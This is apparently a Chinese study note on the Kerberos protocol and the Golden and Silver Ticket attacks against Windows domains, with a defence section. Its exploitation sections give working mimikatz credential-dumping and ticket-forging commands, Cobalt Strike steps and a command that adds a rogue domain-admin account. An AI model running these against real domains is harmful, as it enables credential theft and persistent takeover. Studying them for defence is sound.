







# Kerberos协议

在了解黄金票据和白银票据之前，首先来熟悉一下相关的认证协议Kerberos，这个协议上windows域认证常用协议

Kerberos 是一种由 MIT 提出用来在非安全网络中对个人通信进行身份认证的计算机网络授权协议，该协议使用 AES 对称加密算法为客户端和服务端之间提供强身份认证，在域环境下的身份认证利用的就是 Kerberos 协议。

在计算机通讯中，当客户端去访问服务端时，作为服务端需要判断对方是否有权限访问自己主机上的服务，作为安全人员我们想保证整个过程即使被拦截或者篡改也不会影响数据的安全性，Kerberos 协议正是为了解决这些问题而产生的。

整个认证步骤如下图




协议中的名词缩写解释如下：

- AS (Authentication Service): 认证服务器
- TGS (Ticket Granting Service): 票据授予服务器
- KDC (Key Distribution Center): 密钥分发中心
- TGT (Ticket Granting Ticket): 票据授权票据，或者说：票据的票据
- ST (Servre Ticket): 服务票据

根据上图，总共分为 6 步，这里一步一步进行解释

**Kerberos认证的大概流程**

当 Client 想要访问 Server 上的某个服务时,需要先向 AS 证明自己的身份,验证通过后AS会发放的一个TGT,随后Client再次向TGS证明自己的身份,验证通过后TGS会发放一个ST,最后Client向 Server 发起认证请求,这个过程分为三块：

Client 与 AS 的交互
Client 与 TGS 的交互
Client 与 Server 的交互

在无说明的情况下，下面所有的加密都为对称加密

下面的票据授权服务器密钥，客户端与TGS会话密钥不是同一密钥，同理，服务端密钥和客户端与服务端会话密钥也是如此

## 第一阶段：客户端 Clinet 与认证服务器 AS 通信

首先用户在客户端输入了用户名和密码，在客户端会根据密码生成一个Hash，这个Hash就说Client的密钥（用户密钥）

**第一步**：客户端Client向认证服务器AS发起请求，内容为用户名，客户端地址和当前时间戳

此时客户端不会向AS发送用户密钥，而AS是根据用户名在数据库里面查找是否有这个用户来，有的话根据数据库中用户名的密码生成的用户密钥

**第二步**：AS在收到客户端请求后，会根据客户端传来的用户名在本地数据库中查找这个用户名

此时AS只会查找具有相同用户名的用户，并不会验证用户身份的可靠性

如果没有这个用户名，认证失败；如果存在该用户名，则认证服务器会认为用户存在，此时认证服务器会向客户端发送两条信息，分别如下：

- 第一条：客户端与票据授予服务器（TGS）的会话密钥。该密钥由用户密钥加密，这个用户密钥是AS利用本地数据库查找对应用户名的密码生成的。该消息除了会话密钥外，还包含票据授予服务器（TGS）的地址，时间戳
- 第二条：票据授予票据（TGT）。票据授权票据（TGT）通过票据授权服务器（TGS）密钥加密，票据授权票据包括的内容有第一条消息的会话密钥、用户名、客户端地址、票据授权票据的有效时间和时间戳

客户端收到AS的消息后，会尝试用自己的用户密钥解密第一条信息，如果解密成功，则可以获取客户端与票据授权服务器的会话密钥以及时间戳等信息。

接着客户端会判断时间戳是否在 5 分钟以内，如果大于 5 分钟则认为认证服务器是伪造的，小于 5 分钟则继续下一步认证。

至此，第一阶段通信完成。

## 第二阶段：客户端与票据授权服务器TGS通信

**第三步**：客户端向票据授权服务器（TGS）发起请求，包含以下两条信息

- 第一条：上一步返回的票据授权票据（TGT），以及自己想访问服务的ID
- 第二条：使用客户端与票据服务器的会话密钥加密的用户名，时间戳

**第四步**：票据授予服务器（TGS）接收到请求，首先会判断密钥分发中心（KDC）是否存在客户端想要的服务，如果不存在，认证失败，如果存在则继续接下来的认证。

接下来，票据授予服务器（TGS）会解密票据授权票据（TGT）的内容，此时TGS会获取到用户名，客户端地址，客户端与TGS的会话密钥，时间戳等信息

之后TGS使用客户端与TGS之间的会话密钥解密第二条信息，去除其中的用户名和解密TGT得到的用户名进行对比，这里还会去判断时间戳是否正常，在都没问题的情况下，那么就认为客户端身份正常

接下来TGS向客户端发起响应，也包含了两条信息：

- 第一条：使用服务端密钥加密的服务票据（ST），其中包含用户名、客户端IP、客户端想要访问的服务端信息、服务票据（ST）的有效时间和时间戳等，以及客户端与服务端的会话密钥
- 第二条：使用客户端和TGS的会话密钥加密的内容，其中包括客户端与服务端的会话密钥，时间戳和服务票据（ST）的有效时间

客户端收到响应后，会使用客户端与TGS的会话密钥解密得到客户端与服务端的会话密钥，用于接下来和服务端的通信。同样，与第一阶段类似，也会去检验时间戳是否有误， 这里客户端是无法解密返回的第一条信息的，因为第一条信息是利用服务端的密钥加密的。

至此，第二阶段通信完成。

## 第三阶段：客户端与服务端的通信

**第五步**：客户端向服务端发起请求，也包含两条信息

- 第一条：上一步TGS返回的使用服务端密钥加密的服务票据（ST）
- 第二条：使用客户端与服务端会话密钥加密用户名，时间戳等信息

**第六步**：服务端收到请求后，使用服务端密钥解密出第一部分的内容，核对时间戳后，取出客户端和服务端的会话密钥，利用这个密钥解密出第二部分的内容，获取用户名信息

此时会将从ST中获取到的信息与第二部分解密后得到的信息进行对比，如果一致则说明客户端身份的真实性

此时服务端向客户端响应使用客户端与服务端会话密钥加密的表示验证通过的信息以及时间戳，客户端接到响应后，验证时间戳正确后，便会认为这个服务端可信

至此通信结束，客户端与服务端就能放心点通信了

由此看来，Kerberos协议对与客户端与服务端之间有着双向认证的作用

上面所说的TGS 密钥来源于AD上的一个特殊账户，该账户是KDC 的服务账户，系统自动分配密码，该账户会在 AD 安装时自动创建krbtgt，该账户默认禁用，不能用于交互式登录到域，也无法重命名

# 黄金票据（Golden Ticket）

## 原理

黄金票据就是伪造krbtgt用户的TGT票据，krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户

在Kerberos认证中，Client通过AS认证后，AS会返回一个Logon Session Key（客户端与TGS的会话密钥）和TGT，Logon Session Key不会保存在KDC中，krbtgt的NTLM Hash是固定的，所以只要获取到了krbtgt的NTLM Hash，就可以伪装TGT和客户端与TGS的会话密钥来进入下一步与TGS的交互。而且有了金票后，就不需要AS验证，不用验证账户和密码了，所以不用担心域管密码修改（即使修改也能登陆）

## 条件

黄金票据常用来做一个权限维持

使用场景：假设我们在一个域环境下拿到了所有账户的Hash也包括krbtgt账户的NTML hash，由于某些原因，我们失去了对域管权限的丢失（可能是管理员进行加固修改了密码），但是我们还有一个域普通用户的权限，而管理在加固的时候并没有重置krbtgt账户密码（此时krbtgt的Hash不变），在此条件下，我们可以利用该票据重新获取域管理员的权限，利用krbtgt的Hash伪装成任意的TGT，能够绕过对任意用户的账户策略，让用户成为任意组的成员，可用于Kerberos认证的任何服务

条件：

- 域名称
- 域的SID值
- 域的KRBTGT账号的HASH
- 伪造任意用户名

## 利用

1、获取域名

```javascript
whoami
net time /domain
ipconfig /all
```

2、获取SID

```javascript
whoami /all
```

3、获取域的KRBTGT账户NTLM密码哈希或者aes-256值

用mimikatz也可以直接拿到SID和krbtgt的NTML hash

```javascript
privilege::debug
lsadump::lsa /patch
```



这里没有再去配置环境，直接用了网上的图

```javascript
net group "domain admins" /admin  //查看域管理员
```

#### 伪造TGT

```javascript
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

2、使用mimikatz伪造指定用户的票据并注入到内存

```javascript
kerberos::golden  /admin:administrator  /domain:zz.com  /sid:S-1-5-21-1373374443-4003574425-2823219550  /krbtgt:9f3af6256e86408cb31169871fb36e60  /ptt
```

/admin：需要伪装的域管理员用户

/domain：域名称

/sid：域SID值

/krbtgt：krbtgt的Hash值

/ptt：注入内存

/ticket：生成的票据名称

如下命令就说生成一个票据ticket.kirbi文件

```
kerberos::golden /user:administrator /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /krbtgt:ac923e1d7f56e0adf967356b8d41953e /ticket:ticket.kirbi
```

再通过`kerberos::ptt ticket.kirbi`导入

执行命令的时候用如下命令



创建一个的域管账号

```
net user aaa !@#qwe123 /add /domain
net group "domain admins" aaa /add/domain
```

### 通过CS

在之前打红日靶场的时候用黄金票据做过一次权限维持

#### 域控信息收集

首先直接用CS的mimikatz抓取hash


通过`hashdump`，抓取到了KRBTGT账户NTLM密码哈希，即`82df......`

然后利用logonpasswords获取域的sid


#### 伪造TGT

WEB机 Administrator 权限机器->右键->Access->Golden Ticket


伪造成功，在web机上执行`shell dir \\DC\C$`可以访问域控下的C盘了

## **防御**

防御措施如下：

- 限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机（不要让其他管理员登录到这些服务器）将所有其他权限委派给自定义管理员组。这大大降低了攻击者访问域控制器的Active Directory的ntds.dit。如果攻击者无法访问AD数据库（ntds.dit文件），则无法获取到KRBTGT帐户密码
- 禁用KRBTGT帐户，并保存当前的密码以及以前的密码。KRBTGT密码哈希用于在Kerberos票据上签署PAC并对TGT（[身份验证](https://cloud.tencent.com/product/mfas?from=10680)票据）进行加密。如果使用不同的密钥（密码）对证书进行签名和加密，则DC（KDC）通过检查KRBTGT以前的密码来验证
- 建议定期更改KRBTGT密码（毕竟这是一个管理员帐户）。更改一次，然后让AD备份，并在12到24小时后再次更改它。这个过程应该对系统环境没有影响。这个过程应该是确保KRBTGT密码每年至少更改一次的标准方法
- 一旦攻击者获得了KRBTGT帐号密码哈希的访问权限，就可以随意创建黄金票据。通过快速更改KRBTGT密码两次，使任何现有的黄金票据（以及所有活动的Kerberos票据）失效。这将使所有Kerberos票据无效，并消除攻击者使用其KRBTGT创建有效金票的能力

# 白银票据（Silver Ticket）

## 原理

金票其实就是伪造的一个TGT，而银票则是伪造服务票据ST

在Kerberos协议的第三步，是客户端与服务端进行通信，客户端会带着从TGS返回的服务票据（ST）去访问服务端，服务端使用服务端密钥解密得到ST和客户端与服务端的会话密钥，通过客户端与服务端的会话密钥解密服务端信息得到用户名再与ST中用户名去比较验证客户端的身份，验证成功后就让客户端访问服务端上的指定服务

由此看来，我们只需要知道Server的NTML Hash就能伪造一个ST，而且这个ST不会经过KDC，会更加的隐蔽，但也是由于这个原因，白银票据的权限就不如黄金票据，只能对部分服务起作用，如cifs（文件共享服务），mssql，winrm（windows远程管理），DNS



## 条件

利用前提：拿到目标机器（这里只是目标机器，不一定是域控）

条件：

- 域名
- 域sid
- 目标服务器名FQDN（hostname+域名）
- 可利用的服务
- 服务账号的NTML HASH 
- 需要伪造的用户名

## 利用

因为这里MAC没有去搭建域环境（在后期Kerberos委派攻击的时候会在windows去搭建），所以对于利用只记录一个流程和payload

这两个票据的具体图片可以参考https://www.cnblogs.com/1-Ry/p/15418602.html

首先还是去获取域名和域SID值等信息

```
whoami
net time /domain
ipconfig /all		//获取域名

whoami /all	  //获取SID
```

在域控中使用mimikatz获取相关信息

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```



可以看到域控的NTLM Hash

其实前面CS的时候，我们用hashdump打印的mimikatz抓到的hash中也有NTLM Hash


目标机器的FQDN

```
net time /domain   
就是hostname+域名 
/target:DC.hacke.testlab
```

回到域内低权限的账号

先使用mimikatz清空票据

```
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

再导入伪造的票据,具体伪造票据的命令

```
kerberos::golden /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /target:DC.hacke.testlab /service:cifs /rc4:2c7f354c971b062e1e42f12a30709a7f /user:aaa /ptt
```

```
/domain:域名 
/sid:填sid 
/target:完整的域控名 （这里其实就是hostname+域名）
/service:cifs 
/rc4:服务账号NTMLHASH 
/user:伪造用户名
/ptt：注入内存
```





# 金票与银票的区别

## 获取的权限不同

金票：伪造的TGT，可以获取任意Kerberos的访问权限
银票：伪造的ST，只能访问指定的服务，如CIFS

## 认证流程不同

金票：同KDC交互，但不同AS交互
银票：不同KDC交互，直接访问Server

## 加密方式不同

金票：由krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密


# 写在最后

这次虽然了解了Kerberos协议的认证流程，以及Golden Ticket与Silver Ticket的原理即利用，但并没有去搭建域环境，只是在之前用Cobalt Strike利用了一次黄金票据，这次大多数的图也是网上有的，过段时间，再学习Kerberos域内委派攻击的时候再回来把这两个票据复现一遍吧


参考链接

https://www.cnblogs.com/1-Ry/p/15418602.html

https://cloud.tencent.com/developer/article/2130133

https://teamssix.com/210923-151418.html#toc-heading-4
